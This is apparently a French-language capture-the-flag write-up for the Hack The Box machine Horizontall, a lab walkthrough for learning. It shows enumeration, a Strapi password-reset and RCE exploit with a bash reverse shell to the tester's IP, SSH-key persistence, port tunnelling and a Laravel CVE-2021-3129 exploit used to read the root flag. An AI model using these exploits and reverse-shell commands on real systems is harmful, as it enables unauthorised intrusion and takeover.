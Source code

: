 # Horizontall [Linux] Easy

# — 1.Enumeration —

## Nmap

`nmap -A -sS -sV -p- 10.10.11.105`

```bash
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
|_http-server-header: nginx/1.14.0 (Ubuntu)
```

Quand on se rend sur le port 80 on à une redirectino à horizontall.htb on va changer un paramètre de notre dns avec cette commande :

`echo "10.10.11.105 horizontall.htb" | sudo tee -a /etc/hosts`

## Ffuf

```bash
css                     [Status: 301, Size: 194, Words: 7, Lines: 8]
favicon.ico             [Status: 200, Size: 4286, Words: 8, Lines: 1]
img                     [Status: 301, Size: 194, Words: 7, Lines: 8]
index.html              [Status: 200, Size: 901, Words: 43, Lines: 2]
js                      [Status: 301, Size: 194, Words: 7, Lines: 8]
```

## Le Site

Aucun boutton du site ne marche tout peux nous renvoyer su la page d’acceuil on ne peux pas aller dans les dossiers que ffuf à trouver. On peux quand même regarder le js de la page pour trouver un indice. Il y a [app.c68eb462.js](http://horizontall.htb/js/app.c68eb462.js) qui est un code en 1 seul ligne ce qui rend difficille la lecture mais nous pouvons utiliser [https://beautifier.io/](https://beautifier.io/) pour rendre le code plus lisible.

Dans le code de app[.c68eb462.js](http://horizontall.htb/js/app.c68eb462.js) se rend compte qu’on utilise du Vue js c’est d’ailleur le logo du site et on vois dans les methodes  du script qu’on utilise le site 

[](http://api-prod.horizontall.htb/reviews)

![Untitled](Horizontall%20%5BLinux%5D%20Easy/Untitled.png)

On remodifie notre hosts

`echo "10.10.11.105 api-prod.horizontall.htb" | sudo tee -a /etc/hosts`

![Untitled](Horizontall%20%5BLinux%5D%20Easy/Untitled%201.png)

Nous sommes donc sur un sous-domaine du site précédent nous pouvons énumerer le site

## Ffuf Le 2

```bash
ADMIN                   [Status: 200, Size: 854, Words: 98, Lines: 17]
Admin                   [Status: 200, Size: 854, Words: 98, Lines: 17]
admin                   [Status: 200, Size: 854, Words: 98, Lines: 17]
favicon.ico             [Status: 200, Size: 1150, Words: 4, Lines: 1]
index.html              [Status: 200, Size: 413, Words: 76, Lines: 20]
robots.txt              [Status: 200, Size: 121, Words: 19, Lines: 4]
reviews                 [Status: 200, Size: 507, Words: 21, Lines: 1]
users                   [Status: 403, Size: 60, Words: 1, Lines: 1]
```

On à donc la page admin du CMS qui est strapi et nous pouvons essayer de nous identifier.

# — 2.Exploit —

On trouve avec une recherche google un CVE de Strapi qui est un RCE et nous permet de mettre le mot de passe que nous voulons sur l’admin panel 

On trouve avec un exploit sur exploit-db : [https://www.exploit-db.com/exploits/50239](https://www.exploit-db.com/exploits/50239)

```bash
python3 cmsexploit.py http://api-prod.horizontall.htb
[+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit

[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
[+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjU0NDQzNTE5LCJleHAiOjE2NTcwMzU1MTl9.a8Os4RNhGakrtQ7jfHb106kAUbzaGehXW0IL-X6AgAg
$> bash -c 'bash -i >& /dev/tcp/10.10.14.16/1234 0>&1'
[+] Triggering Remote code executin
[*] Rember this is a blind RCE don't expect to see output
```

En même temps nous mettons un listener `nc -lvnp 1234`

Nous avons maintenant un accées admin sur le panel du CMS et sur la machine en tant que strapi.

![Untitled](Horizontall%20%5BLinux%5D%20Easy/Untitled%202.png)

# — 3.Mouvement Latéral —

On va d’abords invoqué tty pour avoir un shell entier :

```bash
script /dev/null -c bash
ctrl-z
stty raw -echo; fg
*Enter deux fois*
```

On peut pas faire de `sudo -l`

On peut aussi déjà accéder à user.txt pour récupérer le flag.

On créé un serveur avec python `python -m http.server 80` et on récupére un linpeas.sh

On trouve des Ports Actif sur la machine et cesport n’avait pa été trouvé par notre scan nmap :

```bash
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-ports                                                                                                                                           
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                                                                                                                                  
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN      1704/node /usr/bin/ 
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -
```

Avec ce site [https://www.speedguide.net/port.php?port=3306](https://www.speedguide.net/port.php?port=3306) on peux trouver ce que sont ces ports par défaut selon nmap :

1337 : Nullsoft WASTE encrypted P2P app (Pas certain)

3306 :  mySQL

8000 : Une alternative à http 

- On peux utiliser Curl pour avoir une meilleur idée de ce qu’il y à sur ces ports

- curl 127.0.0.1:1337 Est le sous domaine du site

- curl 127.0.0.1:8000 Est un nouveau sous domaine du site utilisant Laravel

![Untitled](Horizontall%20%5BLinux%5D%20Easy/Untitled%203.png)

## Accées par SSH

Pour ce que nous voulons faire par la suite nous devons avoir un accées par ssh donc nous allons créé sur notre ordinateur un couple de clé `ssh-keygen -f strapi` copié la clé publique et l’écirire sur la machine adverse dans un nouveau dossier .ssh  un ficher authorized_keys contenant notre clé publique avec la commande `vi authorized_keys`

On peux finalement se connécté avec la commande : `ssh -i strapi [strapi@10.10.11.105](mailto:strapi@10.10.11.105)`

On se créé un tunnel sur le port 8000 :

`ssh -i strapi -L 8000:localhost:8000 strapi@horizontall.htb`

## Troisième Site

Maintenant que nous avons un tunnel nous pouvons aller sur [http://localhost](http://localhost):8000 

![Untitled](Horizontall%20%5BLinux%5D%20Easy/Untitled%204.png)

## Exploitation Final

Laravel à lui aussi un CVE et un https://github.com/nth347/CVE-2021-3129_exploit qui est un RCE nous permettant d’attraper le dernier flag.

Dernière commande :

`./cve-2021-3129.py [http://localhost:8000](http://localhost:8000/) Monolog/RCE1 'cat /root/root.txt'`

# Notes et Ressources :

[https://www.geeksforgeeks.org/vue-js-methods/](https://www.geeksforgeeks.org/vue-js-methods/)

Ne marche pas sur la machine mais intéressant d’énumérer les sous domaines des le début avec wfuzz :

`wfuzz --hh 194 -u http://horizontall.htb -H "Host: FUZZ.horizontal.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt`

On pouvait au lieu de tester à l’’aveugle le rce trouver la version du cms avec curl :

```
curl http://api-prod.horizontall.htb/admin/strapiVersion
{"strapiVersion":"3.0.0-beta.17.4"}
```